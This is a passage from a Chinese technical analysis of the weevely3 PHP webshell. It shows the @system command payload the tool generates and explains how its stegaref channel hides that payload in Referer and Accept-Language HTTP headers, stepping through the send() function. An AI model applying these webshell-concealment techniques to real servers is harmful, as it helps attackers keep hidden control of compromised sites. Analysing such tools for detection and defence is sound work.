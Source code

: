 例如，**dir**命令，weevely找不到已实现的module命令，因此生成**@system('dir 2>&1')**PHP可执行代码

weevely在连接建立的时候会从服务器上获取web根目录的据对路径，因此**dir**命令，在最终会生成

    "chdir('D:\\www\\apache\\test');@system('dir 2>&1');"

这一段PHP代码，生成代码的过程这里不再说明，本文后面的内容将以**dir**为例分析weevely的隐藏技巧

weevely中对控制通道payload进行编码的代码在weevely3/core/channels/stegaref目录中，如图

![stegaref目录](/images/weevely_2.JPG)

其中**stegaref.py**为核心代码区域，**referrers.tpl**为mako模板，weevely根据这个模板编码攻击payload

编码后的payload在HTTP中Referrer和Accept-Language中，其中Accept-Language用于指示payload在referrer中的偏移位置，在我们的示例中

    chdir('D:\\www\\apache\\test');@system('dir 2>&1');  #原始payload

将会被编码为：

    Accept-Language: ro-RO,ur;q=0.5,uk;q=0.7,uz;q=0.8,ur;q=0.9
    Referer: http://www.google.iq/url?sa=t&rct=j&q=168.14.156&source=web&cd=102&ved=cbfSqx5rS&url=168&ei=rwGuBiR4PpSxYZvXscei-s&usg=cbsbex0cMrWNQBqcHBwqr-xmNRhhAtExCj&sig2=K4MzCQTG3a0bczV1WDgjWx

**stegaref.py**中主要的函数为*send()*函数

### 3.1 send()函数核心流程分析

**step1**

    line:69 session_id, referrers_data = self._prepare(original_payload)

调用*_prepare()*函数对原始payload进行编码，生成承载编码后的payload的referrer数组，由于原始payload可能很长，因此可能生成很多个referrer。在本例中原始payload较短，referrer数组只有一个referrer

**step2**

    line:107    for referrer_index, referrer_data in enumerate(referrers_data):
    line:109        accept_language_header = self._generate_header_accept_language(referrer_data[1],

对referrer数组中每个referrer调用*_generate_header_accept_language()*生成对应的Accept-Language

**step3**

生成其他http header，发送payload给webshell


### 3.2 _prepare()函数分析：
